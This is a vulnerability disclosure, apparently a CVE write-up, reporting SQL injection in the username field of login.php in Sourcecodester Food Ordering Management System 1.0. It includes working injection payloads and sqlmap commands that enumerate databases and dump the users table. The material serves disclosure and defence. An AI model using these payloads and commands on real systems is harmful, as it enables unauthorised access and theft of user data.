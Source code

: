 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: login.php

Injection parameter: username


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username and password fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the login.php:

`http://172.16.76.1/foms/login.php`

![image](https://github.com/jadu101/CVE/assets/76433661/5f48cb34-18a4-4b03-8848-964b87b60b94)

We will first intercept the login traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/cf2eb00b-1072-4879-871d-fea55e0e27ee)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter username is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_login_php.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/cefe36df-faac-4a01-add2-d8ea640290bd)

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7413=7413 AND 'DhRh'='DhRh&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3140 FROM (SELECT(SLEEP(5)))KQvB) AND 'JGgH'='JGgH&password=admin123
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p username --dbs`

![image-3](https://github.com/jadu101/CVE/assets/76433661/fe318b8c-e4cd-4110-bcf6-f2fe4b11ece3)


Below command will dump data inside foms_db database table users:

`sqlmap -r foms_login_php.txt --batch -p username --dbs -D foms_db -T users --dump`

![image-4](https://github.com/jadu101/CVE/assets/76433661/a9cb9cc8-14a4-4517-bb1b-7e0f27c15665)
